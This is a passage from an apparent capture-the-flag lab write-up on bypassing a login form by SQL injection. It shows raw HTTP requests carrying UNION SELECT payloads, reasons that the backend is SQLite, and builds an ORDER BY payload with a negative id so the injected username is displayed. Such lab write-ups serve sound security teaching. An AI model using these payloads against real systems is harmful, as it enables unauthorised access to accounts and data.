 ```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+1,NULL--&password=woo
```

We find that all string/integer combinations of the two columns in the `UNION SELECT` injection trigger 302 redirects. This indicates that SQLite is probably the backend database system, as it often coerces data to make it fit the column's type without returning errors. Unfortunately, this doesn't give any indication as to what the column types are.

After a bit of trial and error with the parameters, it appears that the first parameter is of type integer and the second parameter is of type string. The parameters are likely `id` and `username`. This means the backend SQL query probably looks like:

```sql
SELECT id, username FROM $USER_TABLE WHERE username = '$USERNAME' AND password = '$PASSWORD'
```

Since the web application renders the username of the first record from the resultant row set, it must be assured that the `UNION`'d record appears first in the resultant row set. This is achievable by ordering the resultant row set by the integer parameter at index 1 and setting the `UNION`'d integer parameter at index 1 as a negative number, since the application presumably doesn't use negative numbers as user IDs.

```http
POST /challenge2/login HTTP/1.1
Host: 10.10.109.43:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: http://10.10.109.43:5000
DNT: 1
Connection: close
Referer: http://10.10.109.43:5000/challenge2/login
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=admin'+UNION+SELECT+-50,'tgihf'+ORDER+BY+1--&password=woo	
```
